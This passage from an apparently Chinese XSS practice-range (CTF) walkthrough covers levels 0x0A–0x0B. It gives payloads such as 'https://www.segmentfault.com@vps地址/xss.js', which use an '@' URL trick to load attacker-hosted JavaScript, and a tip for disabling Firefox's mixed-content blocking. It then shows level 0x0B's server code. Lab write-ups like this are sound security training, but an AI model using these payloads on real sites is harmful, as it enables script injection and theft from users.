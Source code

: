 ![image-20200513100657413](/img/haozi_XSS靶场通关记录/image-20200513100657413.png)

自己搭建VPS需支持HTTPS请求否则无法加载js

```javascript
// input code
https://www.segmentfault.com@vps地址/xss.js
```

非要使用HTTP，需在about:config配置文件中将修改security.mixed_content.block_active_content为false，不然会出现混合活动内容

![image-20200513101558581](/img/haozi_XSS靶场通关记录/image-20200513101558581.png)

```javascript
// input code
http://www.segmentfault.com@vps地址/xss.js
```

![image-20200513093911763](/img/haozi_XSS靶场通关记录/image-20200513093911763.png)

##### 0x0B

```javascript
// server code
function render (input) {
  input = input.toUpperCase()
  return `<h1>${input}</h1>`
}
```
